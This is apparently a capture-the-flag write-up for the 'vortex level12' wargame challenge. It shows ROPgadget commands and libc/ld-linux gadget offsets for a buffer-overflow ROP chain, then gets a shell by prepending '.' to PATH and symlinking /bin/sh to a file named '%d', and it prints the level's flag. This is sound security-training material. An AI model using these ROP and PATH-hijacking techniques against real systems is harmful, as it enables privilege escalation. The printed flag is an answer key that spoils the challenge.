



# vortex level12 Solution

in this challenge we need to use ROP chain in order to exploit the buffer overflow. 
we will find our gadgets in *libc.so.6*, and in *ld-linux.so.2*.

using this command we can see where every file is loaded: 
```
ldd /vortex/vortex12
```
/lib/i386-linux-gnu/libc.so.6 (**0xf7d7d000**)
/lib/ld-linux.so.2 (**0xf7fc9000**)


find "pop eax", "pop edx", in libc.so.6
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "pop|ret" | grep -E "pop (eax|edx) ; ret"
```
* pop eax -> 0x0012b311 (in **libc.so.6**)
* pop edx -> 0x0003be0d (in **libc.so.6**)

then, find "mov [edx], eax", in ld-linux.so.2 
```
 ROPgadget --binary /lib/ld-linux.so.2 --only "mov|ret" | grep -E "mov .* \[edx\], eax ; ret"
```


* mov [edx], eax -> 0x0001250b (in **ld-linux.so.2**)

we only need to call exit, so, first let's find "mov eax, 1".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "mov|ret" | grep -E "mov eax, 1"
```
* mov eax, 1 -> 0x0005cdb5 (in **libc.so.6**)

and then, call the kernel using "int 0x80".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "int"
```
* int 0x80 -> 0x00039ed4 (in **libc.so.6**)

now, we can see it tries to run this command, `system("%d")`  


first we need to adjust the PATH variable:
```
export PATH=.:$PATH
```

and then, create link to `/bin/sh` using this command: 
```
ln -sf /bin/sh "%d"
```

finally :)



**Flag:** ***`kklZMRIrj`***